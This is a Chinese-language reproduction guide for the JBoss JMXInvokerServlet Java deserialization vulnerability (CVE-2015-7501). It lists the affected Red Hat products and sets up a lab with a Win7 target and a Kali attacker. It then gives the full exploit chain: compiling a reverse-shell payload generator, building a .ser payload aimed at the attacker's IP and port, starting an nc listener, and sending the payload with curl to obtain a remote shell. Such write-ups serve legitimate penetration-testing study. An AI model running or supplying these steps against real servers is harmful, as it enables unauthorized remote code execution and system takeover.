 ```yaml
---
title: （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞
id: zhfly2984
---
```


# （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞

## 一、漏洞简介

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

## 二、漏洞影响

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS 6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV) 6.x版本和5.x版本；Enterprise Application Platform 6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW) 6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

## 三、复现过程

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入[http://172.26.1.151:8080/invoker/JMXInvokerServlet](http://172.26.1.151:8080/invoker/JMXInvokerServlet) 返回如图，说明接口开发，存在反序列化漏洞

![image](../img/c5512da83d294f63918fbd8c260e0089.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](../img/07d7c1977844ba20a10d937871c15cba.png)

打开nc界面，发现shell已经弹回来了

![image](../img/778060853ab56211b93d767fa8272659.png)